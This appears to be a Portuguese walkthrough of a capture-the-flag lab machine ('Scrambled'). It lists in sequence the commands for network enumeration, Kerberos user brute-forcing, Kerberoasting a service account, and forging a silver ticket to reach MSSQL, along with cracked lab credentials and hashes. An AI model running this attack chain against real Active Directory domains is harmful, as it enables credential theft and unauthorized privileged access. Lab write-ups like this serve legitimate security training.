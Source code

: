 Scrambled
========================

    sudo nmap_enum 10.10.11.168 | tee nmap_output.txt
    
![qownnotes-media-UTNsLs](../../../media/qownnotes-media-UTNsLs.png)


    sudo nmap -sU -p 53,161,111,137,139,500,2049 -Pn 10.10.11.168 | tee nmap_udp_output.txt

![qownnotes-media-nDyJRj](../../../media/qownnotes-media-nDyJRj.png)

    
    sudo nmap -p- -Pn -T5 -n 10.10.11.168 | tee nmap_fullportstcp_output.txt

    gobuster dir -u http://10.10.11.168 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -k -t 16 -o "tcp_port_protocol_gobuster.txt"
    
    gobuster dir -u http://10.10.11.168 -w /usr/share/seclists/Discovery/Web-Content/common.txt -x "txt,html,php,asp,aspx,jsp" -k -t 16 -o "tcp_port_protocol_ext_gobuster.txt"

![qownnotes-media-QHNHun](../../../media/qownnotes-media-QHNHun.png)


    nikto -host http://10.10.11.168 -T x 6 | tee nikto_output.txt
![qownnotes-media-XXiCsY](../../../media/qownnotes-media-XXiCsY.png)


    kerbrute userenum -d scrm.local --dc 10.10.11.168 users.txt


    kerbrute bruteuser -d scrm.local --dc 10.10.11.168 /usr/share/wordlists/rockyou.txt ksimpson

![qownnotes-media-cFfNQy](../../../media/qownnotes-media-cFfNQy.png)

Aqui eu ja teria acertado, se eu tivesse testado o mesmo user e o mesmo password, conforme eu havia feito com o crackmapexec, porém, essa autenticação é feita via NTLM. Por isso não está funcional, veja:

![qownnotes-media-OBNHgx](../../../media/qownnotes-media-OBNHgx.png)

![qownnotes-media-CkGZHT](../../../media/qownnotes-media-CkGZHT.png)

Com base nisso, dá pra testar novamente aquela mesma senha e usuário descoberta anteriormente:

    kerbrute bruteuser -d scrm.local --dc 10.10.11.168 /usr/share/wordlists/rockyou.txt ksimpson
    
![qownnotes-media-uiCGbD](../../../media/qownnotes-media-uiCGbD.png)


Então a autenticação tem que ocorrer via kerberos. Desta forma:

    impacket-smbclient -k 'scrm.local/ksimpson:ksimpson@dc1.scrm.local' -dc-ip 10.10.11.168

Vide que o nome do servidor deve eestar correto, caso contrário ele não consegue autenticação por meio da bas Kerberos:

    impacket-smbclient -k 'scrm.local/ksimpson:ksimpson@scrm.local' -dc-ip 10.10.11.168
 
![qownnotes-media-CeWXoh](../../../media/qownnotes-media-CeWXoh.png)

## Exploitation

Aqui não foi necessário conduzir os testes anteriores, mas também não deixa de ser válido. Próximo passo aqui foi obter o hash de senha do serviço sqlsvc com os seguintes comandos:

Vide que o passo a passo seria

1 - Obter o ticket kerberos do usuário ksimpson:

    impacket-getTGT scrm.local/ksimpson:ksimpson -dc-ip 10.10.11.168

![qownnotes-media-QKUaMx](../../../media/qownnotes-media-QKUaMx.png)

2 - Carregar esse ticket na máquina Linux para conseguir extrair o hash do SPN:

    export KRB5CCNAME=ksimpson.ccache
    klist

![qownnotes-media-vfxsbO](../../../media/qownnotes-media-vfxsbO.png)

3 - Obter o hash de senha do SPN sqlsvc


    impacket-GetUserSPNs -request scrm.local/ksimpson:ksimpson -k -dc-host dc1.scrm.local
    #ou
    impacket-GetUserSPNs -request -k -no-pass -dc-host dc1.scrm.local scrm.local/ksimpson
    
![qownnotes-media-MpPoDK](../../../media/qownnotes-media-MpPoDK.png)

4 - Basta copiar esse hash e colar em um arquivo para quebrarmos com o john

![qownnotes-media-OKsOXL](../../../media/qownnotes-media-OKsOXL.png)

Dado que a máquina está com o NTLM desabilitado, podemos ver que, quando a gente gera o ticket para o serviço sqlsvc, ele não loga na máquina:

    impacket-getTGT scrm.local/sqlsvc:Pegasus60 -dc-ip 10.10.11.168
    export KRB5CCNAME=sqlsvc.ccache
    impacket-mssqlclient -k -no-pass scrm.local/sqlsvc@dc1.scrm.local

![qownnotes-media-dnmhzj](../../../media/qownnotes-media-dnmhzj.png)

Neste caso, devemos considerar fazer o silver ticket para conseguir gerar nossas próprias permissões no serviço:

Para isso precisamos do SID do domínio, NTHASH da senha do serviço e o SPN:

1 - Para obter o SID, podemos executar o seguinte comando:

    impacket-getPac scrm.local/ksimpson:ksimpson -targetUser ksimpson
 
 ![qownnotes-media-DLEMIA](../../../media/qownnotes-media-DLEMIA.png)

2 - Para obter o nthash da senha do spn basta executar o seguinte comando:

    iconv -f ASCII -t UTF-16LE <(printf "Pegasus60") | openssl dgst -md4

ou

    python -c 'import hashlib,binascii; print(binascii.hexlify(hashlib.new("md4", "Pegasus60".encode("utf-16le")).digest()))'

3 - Agora já temos todos os dados necessários, basta realizarmos o silver ticket:

    impacket-ticketer -spn 'MSSQLSvc/dc1.scrm.local:1433' -domain scrm.local -domain-sid S-1-5-21-2743207045-1827831105-2542523200 -nthash b999a16500b87d17ec7f2e2a68778f05 -dc-ip dc1.scrm.local adm

![qownnotes-media-FRPLDN](../../../media/qownnotes-media-FRPLDN.png)

![qownnotes-media-RyziOV](../../../media/qownnotes-media-RyziOV.png)

Agora conseguimos acessar o servidor mssql server com a autenticação via Kerberos:

    export KRB5CCNAME=adm.ccache
    klist
    impacket-mssqlclient -k -no-pass dc1.scrm.local

![qownnotes-media-OWKENF](../../../media/qownnotes-media-OWKENF.png)

Depois disso, basicamente é habilitar a execução de comando no banco seguindo o tutorial que consta nessa [nota](Mssql.md#Command%20execution)


Vamos tentar de um jeito diferente esse cara aqui:

    kerberos::golden /user:admin /domain:scrm.local /sid:S-1-5-21-2743207045-1827831105-2542523200 /target:DC1.scrm.local /service:cifs /rc4:a4ce9e577c1298c759340f09b3546950 /ticket:c:\temp\test_cifs.kirbi


![qownnotes-media-ypkIkw](../../../media/qownnotes-media-ypkIkw.png)
